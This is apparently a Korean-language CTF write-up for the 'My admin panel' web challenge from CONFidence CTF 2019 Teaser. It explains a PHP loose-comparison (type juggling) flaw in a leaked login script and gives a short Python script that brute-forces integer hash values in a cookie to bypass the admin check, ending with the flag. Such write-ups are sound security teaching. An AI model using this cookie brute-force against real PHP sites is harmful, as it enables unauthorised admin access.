 ```yaml
---
layout: post
title: My admin panel
category: Web
source: "CONFidence CTF 2019 Teaser"
rpath: /resource/My_admin_panel
tag: [php, type_confusion]
---
```


**Category**: Web

**Source**: CONFidence CTF 2019 Teaser

**Points**: 51

**Author**: Jisoon Park(js00n.park)

**Description:** 

> I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?
> 
> https://gameserver.zajebistyc.tf/admin/

## Write-up

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

주어진 사이트로 들어가 보면 login.php와 login.php.bak를 볼 수 있다. .bak 파일은 login.php의 소스 코드를 보여주기 위해 만들어 둔 것 같다. 코드를 살펴보자.

```php
[...]

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

otadmin이라는 쿠키를 만들어 줘야 하는데, 숫자와 A-Z로 구성된 hash 값을 JSON 형태로 보내야 한다. 우리가 보낸 값이 $cfg_pass 변수의 md5 hash와 동일하면 admin 관련 내용을 보여주도록 되어 있다.

php에서 문자열과 입력값을 비교할 때는 type confusion을 생각해 봐야 한다. 일단, 알파벳으로 시작하는 문자열은 0과 비교했을 때 true이니, hash 값으로 정수 0을 보내보자.

![img]({{page.rpath|prepend:site.baseurl}}/hint.png)

if 문의 조건을 통과하지 못하는 것을 보니 MD5 hash의 결과가 알파벳으로 시작하지는 않는 것 같다. 힌트로 주는 문자열은 0과 64의 조합이다. 이 문자열은 $cfg_pass 변수의 MD5 해쉬 결과(문자열)의 각 자리에 대한 ascii code에 0xC0를 and 연산 한 결과이다. 0xC0는 이진수로 쓰면 11000000b로, and 연산했을 때 64 미만의 수에 대해서는 0이 나온다. MD5 hash 결과는 숫자 또는 A부터 F 까지의 문자로 구성되어 있을 테니, 이 결과가 0이면 해당 자리가 숫자이고 64이면 문자라는 뜻이다.

결국, MD5($cfg_pass)는 숫자|숫자|숫자|문자|문자|문자|숫자|문자|.... 의 형식으로 구성되어 있다는 뜻이다.

이 힌트에서 얻어야 하는 부분은 맨 앞에 연속된 숫자로 구성된 자릿수가 3자리 라는 것이다. php는 문자열과 숫자를 비교할 때, 문자열이 숫자로 시작하면 그 부분만 숫자로 인식하여 비교한다. (예를 들면, **"123AAA" == 123** 를 true로 판단한다.)

세 자리 숫자에 대한 경우의 수는 1000가지이니, 간단하게 brute-force 해볼 수 있을 것 같다.

아래와 같은 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 작성하여 쉽게 찾을 수 있었고, 그 결과 flag를 받았다.

```python
import requests

url = "https://gameserver.zajebistyc.tf/admin/login.php"

for i in range(1000):
  cookies = {"otadmin": '{"hash": %03d}'%i}
  print cookies
  response = requests.get(url, cookies=cookies)
  print response.status_code
  print response.text
```

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **p4{wtf_php_comparisons_how_do_they_work}**
